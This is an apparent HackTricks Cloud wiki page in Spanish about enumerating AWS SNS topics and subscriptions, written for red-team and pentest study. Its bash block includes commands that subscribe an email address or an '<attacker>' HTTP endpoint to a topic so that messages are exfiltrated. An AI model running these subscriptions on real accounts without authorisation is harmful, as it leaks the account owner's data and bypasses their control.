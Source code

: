 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) se describe como un **servicio de mensajería completamente gestionado**. Soporta tanto **comunicaciones de aplicación a aplicación** (A2A) como **comunicaciones de aplicación a persona** (A2P).

Las características clave para la comunicación A2A incluyen **mecanismos de publicación/suscripción (pub/sub)**. Estos mecanismos introducen **temas**, cruciales para habilitar mensajería **basada en push, de alto rendimiento y de muchos a muchos**. Esta característica es altamente ventajosa en escenarios que involucran sistemas distribuidos, microservicios y arquitecturas sin servidor impulsadas por eventos. Al aprovechar estos temas, los sistemas publicadores pueden distribuir mensajes de manera eficiente a una **amplia gama de sistemas suscriptores**, facilitando un patrón de mensajería de fanout.

### **Diferencia con SQS**

**SQS** es un servicio **basado en colas** que permite la comunicación punto a punto, asegurando que los mensajes sean procesados por un **único consumidor**. Ofrece **entrega al menos una vez**, soporta colas estándar y FIFO, y permite la retención de mensajes para reintentos y procesamiento retrasado.\
Por otro lado, **SNS** es un servicio **basado en publicación/suscripción**, que permite la comunicación **de uno a muchos** al transmitir mensajes a **múltiples suscriptores** simultáneamente. Soporta **diversos puntos finales de suscripción como correo electrónico, SMS, funciones Lambda y HTTP/HTTPS**, y proporciona mecanismos de filtrado para la entrega de mensajes dirigida.\
Mientras que ambos servicios permiten desacoplar componentes en sistemas distribuidos, SQS se centra en la comunicación en cola, y SNS enfatiza patrones de comunicación impulsados por eventos y de fan-out.

### **Enumeración**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Tenga en cuenta que si el **tema es de tipo FIFO**, solo se pueden usar suscriptores que utilicen el protocolo **SQS** (no se puede usar HTTP o HTTPS).

Además, incluso si el `--topic-arn` contiene la región, asegúrese de especificar la región correcta en **`--region`** o recibirá un error que indica que no tiene acceso, pero el problema es la región.
{% endhint %}

#### Acceso No Autenticado

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Escalación de Privilegios

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Post Explotación

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Persistencia

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Referencias

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
